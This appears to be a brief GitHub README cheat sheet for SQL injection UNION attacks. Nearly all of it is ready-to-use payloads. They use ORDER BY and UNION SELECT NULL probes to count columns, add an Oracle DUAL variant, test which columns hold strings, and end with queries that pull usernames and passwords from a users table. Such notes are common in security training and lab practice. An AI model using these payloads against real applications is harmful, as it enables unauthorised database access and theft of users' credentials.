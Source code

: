 # sql-injection-union

SQL INJECTION UNION ATTACK

SELECT a, b FROM table1 UNION SELECT c, d FROM table2

1-)
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
ETC.
OR
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.

BUT ON ORACLE   ' UNION SELECT NULL FROM DUAL-- 

3-)
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

4-)
' UNION SELECT username, password FROM users--

and single column
' UNION SELECT username || '~' || password FROM users--

